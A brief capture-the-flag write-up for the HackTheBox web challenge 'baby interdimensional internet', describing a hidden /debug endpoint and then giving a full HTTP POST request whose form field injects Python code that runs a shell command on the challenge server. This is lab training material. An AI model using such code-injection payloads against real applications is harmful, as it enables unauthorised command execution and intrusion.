

We will solve web challenge from HackTheBox called `baby interdimensional internet` \
Let's get started!


okay lets check the source of the page 



we found this `<!-- /debug -->` , let's try requesting this endpoint :

okay from the code we can run rce by making post request like this 
```
POST / HTTP/1.1
Host: 94.237.57.211:51999
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 78
ingredient=pwned_ls&measurements=__import__('os').popen('ls -als').read()
```
and boom we solved it 